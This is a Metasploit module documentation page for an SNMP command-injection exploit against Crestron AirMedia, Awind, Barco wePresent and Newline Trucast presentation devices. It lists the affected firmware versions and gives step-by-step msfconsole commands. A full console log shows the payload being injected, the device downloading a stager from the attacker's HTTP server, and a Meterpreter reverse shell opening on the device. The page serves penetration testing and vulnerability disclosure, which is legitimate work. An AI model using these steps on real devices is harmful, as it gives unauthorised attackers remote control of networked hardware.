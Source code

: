 ## Vulnerable Application

This module exploits a vulnerability found in AwindInc and OEM'ed products where untrusted inputs are fed to `ftpfw.sh` system command, leading to command injection.

Note: a valid SNMP read-write community is required to exploit this vulnerability.

The following devices are known to be affected by this issue:

* Crestron Airmedia AM-100 <= version 1.5.0.4
* Crestron Airmedia AM-101 <= version 2.5.0.12
* Awind WiPG-1600w <= version 2.0.1.8
* Awind WiPG-2000d <= version 2.1.6.2
* Barco wePresent 2000 <= version 2.1.5.7
* Newline Trucast 2 <= version 2.1.0.5
* Newline Trucast 3 <= version 2.1.3.7

Other devices might be affected by the same issue but lack of access to firmware forbids me from confirming that. See https://github.com/QKaiser/awind-research for full list of similar devices.

## Verification Steps

1. Start `msfconsole`
2. Do: `use exploit/linux/snmp/awind_snmp_exec`
3. Do: `set payload linux/armle/meterpreter/reverse_tcp`
4. Do: `set RHOST [IP]`
5. Do: `set LHOST [IP]`
6. Do: `run`

You should get a session.

## Scenarios

```
msf > use exploit/linux/snmp/awind_snmp_exec
msf exploit(linux/snmp/awind_snmp_exec) > set payload linux/armle/meterpreter/reverse_tcp 
payload => linux/armle/meterpreter/reverse_tcp
msf exploit(linux/snmp/awind_snmp_exec) > set RHOSTS 192.168.100.2
RHOSTS => 192.168.100.2
msf exploit(linux/snmp/awind_snmp_exec) > set LHOST 192.168.100.1
LHOST => 192.168.100.1
msf exploit(linux/snmp/awind_snmp_exec) > check

[*] Target system is Crestron Electronics AM-100 (Version 2.6.0.6)
[+] 192.168.100.2:161 The target is vulnerable.
msf exploit(linux/snmp/awind_snmp_exec) > run

[*] Started reverse TCP handler on 192.168.100.1:4444 
[*] Using URL: http://0.0.0.0:8080/u70HALC
[*] Local IP: http://192.168.1.10:8080/u70HALC
[*] Injecting payload
[*] Injection successful
[*] Triggering call
[*] Trigger successful
[*] Client 192.168.100.2 (Wget) requested /u70HALC
[*] Sending payload to 192.168.100.2 (Wget)
[*] Sending stage (806872 bytes) to 192.168.100.2
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.2:38009) at 2019-03-28 11:01:41 +0100
[*] Server stopped.

meterpreter > sysinfo
Computer     : Crestron.AirMedia-1.1.wm8750
OS           :  (Linux 2.6.32.9-default)
Architecture : armv6l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
```

